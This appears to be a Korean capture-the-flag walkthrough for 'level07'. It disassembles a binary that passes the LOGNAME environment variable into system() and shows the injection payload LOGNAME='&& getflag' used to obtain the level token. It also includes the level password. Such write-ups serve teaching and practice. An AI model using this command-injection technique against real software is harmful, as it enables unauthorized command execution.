 > Password: wiok45aaoguiboiki2tuin6ub

# 접근 방법

홈 디렉토리의 `level07`을 `objdump`를 이용하여 어셈블리 코드로 나타내면

```asm
[...]
804856f:	c7 04 24 80 86 04 08 	movl   $0x8048680,(%esp)
8048576:	e8 85 fe ff ff       	call   8048400 <getenv@plt>
804857b:	89 44 24 08          	mov    %eax,0x8(%esp)
804857f:	c7 44 24 04 88 86 04 	movl   $0x8048688,0x4(%esp)
8048586:	08
8048587:	8d 44 24 14          	lea    0x14(%esp),%eax
804858b:	89 04 24             	mov    %eax,(%esp)
804858e:	e8 ad fe ff ff       	call   8048440 <asprintf@plt>
8048593:	8b 44 24 14          	mov    0x14(%esp),%eax
8048597:	89 04 24             	mov    %eax,(%esp)
804859a:	e8 71 fe ff ff       	call   8048410 <system@plt>
804859f:	c9                   	leave
80485a0:	c3                   	ret
[...]
```

`$0x8048680` 주소의 문자열을 `getenv`함수의 첫 인자로 넣고 실행시켜서 환경 변수를 가져온 뒤에 그 값을 문자열 포매팅 함수인 `asprintf`를 이용해서 새로운 문자열에 넣은 뒤, 그 문자열 `system`함수를 사용해서 `shell`을 통해 실행하는 코드인 것을 확인할 수 있다.

전체적인 흐름을 `C`로 표현하면 다음과 같다.
```c
const char *s = getenv("LOGNAME");
asprintf(buf, "/env/echo %s", s);
system(buf);
```

따라서 환경 변수 `LOGNAME`를 `&& getflag` 과 같이 변경하면 `getflag` 프로그램이 실행되며 `token`을 획득할 수 있다.

```bash
$ LOGNAME='&& getflag' ./level07
```

